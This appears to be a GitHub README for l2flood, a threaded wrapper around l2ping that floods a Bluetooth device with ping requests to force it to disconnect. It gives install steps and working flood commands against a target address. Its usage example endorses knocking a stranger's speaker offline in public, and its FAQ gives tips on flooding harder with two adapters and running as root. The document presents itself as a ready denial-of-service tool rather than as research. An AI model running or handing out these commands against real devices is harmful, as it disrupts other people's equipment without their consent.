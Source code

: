 # l2flood

[l2ping][1] with threads.

Flood a given bluetooth device with ping requests in order to force it to
disconnect.

# INSTALL

Satisfy the [dependencies](#dependencies) first, and then:

```bash
git clone https://github.com/kovmir/l2flood
cd l2flood
make # Use `make serial` to build upstream l2ping.
sudo make install
```

# USAGE

Suppose there is a loud bluetooth speaker in public, and suppose
`94:3a:2c:e1:2b:07` is its address. You can shut it off like that:

```bash
l2flood 94:3a:2c:e1:2b:07 # Flood with as much threads as there are CPU cores.
l2flood -n 50 94:3a:2c:e1:2b:07 # Flood with 50 threads.
```

A weak speaker CPU will not be able to process that many ping requests, and
music decoding simultaneously; so it will disconnect.

Keep in mind:

* The default delay between packets has been changed to `0`.
* The default data packet size has been increased to `600`.
* [`l2ping` options][1] work.
* *Your bluetooth card is your bottleneck: Even if you have a multi-core
  multi-gigahertz CPU, it makes little to no sense to spawn as much as 1,000
  threads, because your bluetooth card is unlikely to be fast enough to process
  all the requests as quick as you submit them.*

# DEPENDENCIES

* [Bluez][3]
  * On Debian/Ubuntu/Kali `sudo apt install -y libbluetooth-dev`.

# SUPPORTED OPERATING SYSTEMS

* Linux

# FAQ

**Q: Does it work in [termux][2]?**

A: No, [Bluez][3] libraries are not available in termux.

**Q: Does it work on Steam Deck?**

A: Yes.

**Q: How to increase flood efficiency?**

A: Get a second bluetooth card, and flood using both of them.

```bash
BT_ADDR='00:00:00:00:00:00' # Set the target address.
l2flood -i hci0 $BT_ADDR &
l2flood -i hci1 $BT_ADDR
```

**Q: How to fix `Can't create socket: Operation not permitted`?**

A: Re-run as `root` user.

[1]: https://linux.die.net/man/1/l2ping
[2]: https://github.com/termux/termux-app
[3]: https://wiki.archlinux.org/title/Bluetooth
